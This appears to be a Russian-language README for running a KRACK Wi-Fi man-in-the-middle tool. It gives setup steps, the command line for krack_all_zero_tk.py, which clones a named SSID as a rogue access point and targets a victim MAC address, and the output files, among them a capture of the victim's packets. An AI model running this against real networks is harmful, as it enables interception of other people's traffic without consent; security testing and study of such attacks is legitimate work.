 ## Подготовка
* Тестер:
  * Ноутбук
  * Kali Linux 2018.4
  * 2 WIFI сетевые карты
  * 1 Ethernet сетевая карта или 4G - модем, или расшара интернета через мобильный интернет USB - Teathering
  
* Жертва (которая подключается к роутеру):
  * Ноутбук или Смартфон или Планшет с WIFI

* Роутер (точка доступа):

## Предустановка
Установить пакеты Kali Linux:
```
$sudo apt update
$sudo apt install dnsmasq libnl-3-dev libnl-genl-3-dev pkg-config libssl-dev net-tools git sysfsutils python-scapy python-pycryptodome
```
dnsmasq - обязательно установить, иначе интернет не будет работать у жертвы.

Install the following python package:
```
$pip install --user mitm_channel_based
```
Потом отключить аппаратное шифрование на WIFI у тестера **disable hardware encryption** через скрипт ./disable-hwcrypto.sh. Перезагрузиться (обязательно).
 
 ## Использование
 Запустить скрипт
 
 ```
 $sudo ./krackattack/krack_all_zero_tk.py wlan1 wlan0 usb0 "Familia Couto" -t 00:21:5d:ea:fe:be
 ```
 * `wlan1`: интерфейс, на котором слушаем и внедряем пакеты в реальный канал роутера
 * `wlan0`: интерфейс с поддельной базовой станцией
 * `usb0`: интерфейс с интернетом, может быть что угодно, Ethernet например
 * `"Familia Couto"`: SSID станции в роутеры, которую подделываем
 * `-t 00:21:5d:ea:fe:be`: MAC адрес жертвы
 * Другие настройки можно узнать так `./krackattack/krack_all_zero_tk.py -h`!
 
 **Внимание!**
 * Отключить Wi-Fi в диспетчере перед запуском скрипта!
 * После отключения Wi-Fi, запускаем команду: `$rfkill unblock wifi`!
 
 **Вывод**
 
 * `dnsmasq.conf`: конфигурация DHCP и DNS
 * `dnsmasq_log`: вывод dnsmasq
 * `hostapd_rogue.conf`: файл конфигурации поддельной базовой станции
 * `hostapd_rogue.log`: вывод поддельной базовой станции
 * `rogue_ap_capture.pcap`: файл с записанными пакетами, котороые прослушиваются на интерфейсе поддельной базовой станции.
